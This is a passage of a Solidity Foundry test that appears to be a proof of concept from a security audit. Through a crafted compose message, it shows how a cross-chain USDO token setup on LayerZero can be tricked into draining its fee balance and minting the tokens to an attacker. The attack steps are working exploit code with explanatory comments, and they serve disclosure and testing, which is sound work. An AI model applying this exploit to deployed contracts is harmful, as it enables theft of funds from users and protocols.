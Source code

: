 ```solidity
            fee: feeAToB,
            extraOptions: bytes(""),
            refundAddress: makeAddr("attacker")
        });

        vm.startPrank(makeAddr("attacker"));
        aUsdo.sendPacket(lzSendParamAToB, toeComposeMsg);

        // EXECUTE ATTACK

        // Execute first lzReceive() --> receive message in chain B
    
        vm.startPrank(endpoints[bEid]);
        UsdoReceiver(address(bUsdo)).lzReceive(
            Origin({sender: OFTMsgCodec.addressToBytes32(address(aUsdo)), srcEid: aEid, nonce: 0}), 
            OFTMsgCodec.addressToBytes32(address(0)), // guid (not needed for the PoC)
            abi.encodePacked( // same as _buildOFTMsgAndOptions()
                sendParamAToB.to,
                 index,  // amount (use an initialized 0 variable due to Solidity restrictions)
                OFTMsgCodec.addressToBytes32(makeAddr("attacker")), // initially, the sender for the first A --> B message is the attacker
                toeComposeMsg
            ), // message
            address(0), // executor (not used)
            bytes("") // extra data (not used)
        );

        // Compose message is sent in `lzReceive()`, we need to trigger `lzCompose()`.
        // bUsdo will be burnt from the bUSDO address, and nextMsg will be triggered to mint the burnt amount in chain A, having 
        // the attacker as the receiver
        UsdoReceiver(address(bUsdo)).lzCompose(
            address(bUsdo), 
            OFTMsgCodec.addressToBytes32(address(0)), // guid (not needed for the PoC)
            abi.encodePacked(OFTMsgCodec.addressToBytes32(address(aUsdo)), toeComposeMsg), // message
            address(0), // executor (not used)
            bytes("") // extra data (not used)
        );

        vm.startPrank(endpoints[aEid]);

        // Receive nextMsg in chain A, mint tokens to the attacker
        uint64 tokenAmountSD = usdoHelper.toSD(100 ether, aUsdo.decimalConversionRate());

        UsdoReceiver(address(aUsdo)).lzReceive(
            Origin({sender: OFTMsgCodec.addressToBytes32(address(bUsdo)), srcEid: bEid, nonce: 0}), 
            OFTMsgCodec.addressToBytes32(address(0)), // guid (not needed for the PoC)
            abi.encodePacked( // same as _buildOFTMsgAndOptions()
                OFTMsgCodec.addressToBytes32(makeAddr("attacker")),
                tokenAmountSD
            ), // message
            address(0), // executor (not used)
            bytes("") // extra data (not used)
        );
        

        // Finished: bUSDO fees get drained, attacker obtains all the fees in the form of aUSDO
        assertEq(bUsdo.balanceOf(address(bUsdo)), 0);
        assertEq(aUsdo.balanceOf(makeAddr("attacker")), 100 ether);
          
```